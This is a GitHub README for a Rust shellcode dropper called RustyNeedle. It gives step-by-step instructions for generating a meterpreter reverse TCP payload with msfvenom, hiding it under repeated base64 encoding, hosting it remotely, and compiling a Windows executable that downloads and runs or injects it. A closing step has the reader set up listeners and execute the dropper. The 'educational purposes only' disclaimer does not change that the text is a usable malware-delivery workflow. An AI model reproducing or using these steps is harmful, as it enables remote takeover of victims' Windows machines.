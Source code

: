 # RustyNeedle

**THIS CODE IS FOR EDUCATIONAL PURPOSES ONLY. I take no responsibility if you decide to do crimes with this code.**

A simple dropper for shellcode that leverages the power of...base64 encoding??

No seriously. And it works. Here's how:

## Usage

1. Create your shellcode however you like, be it with `msfvenom` or other tools. Export the raw shellcode file.

2. Use the encode.py script provided in this repository to create an encoded version of the shellcode. 

```bash
python3 encode.py [SHELLCODE_FILE] [B64_ITERATIONS] [OUT_FILE]
```

### Arguments

* `SHELLCODE_FILE`: raw shellcode file to encode
* `B64_ITERATIONS`: # of times to base64-encode the shellcode
* `OUT_FILE`: Resulting text file of the encoded shellcode. **NOTE:** this will be many times larger than the source!
* `IGNORE_SSL`: Ignores SSL/TLS errors.

### Alternative usage

If you don't want to use the script, you can also encode raw shellcode from `msfvenom`. It would go something like this:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f raw | base64 -w 0 > note.txt
# Pipe to base64 -w 0 as many times as you want to iterate the encoding
```
3. Edit the source code in `src/main.rs` to reflect the `URL` where the encoded shellcode will be hosted. Make sure `B64_TTERATIONS` matches what you created with `encode.py`. If you wish to use remote injection, change the `PROCESS_NAME` value as well.

4. Run `cargo build --target x86_64-pc-windows-gnu --release`. If building on Linux for Windows, make sure you've added the Windows target triple with `rustup target add x86_64-pc-windows-gnu`.

5. Copy the resulting exe in `target/x86_64-pc-windows-gnu/release/rustyneedle.exe` wherever you like.

6. Set up any listeners, then execute the dropper!

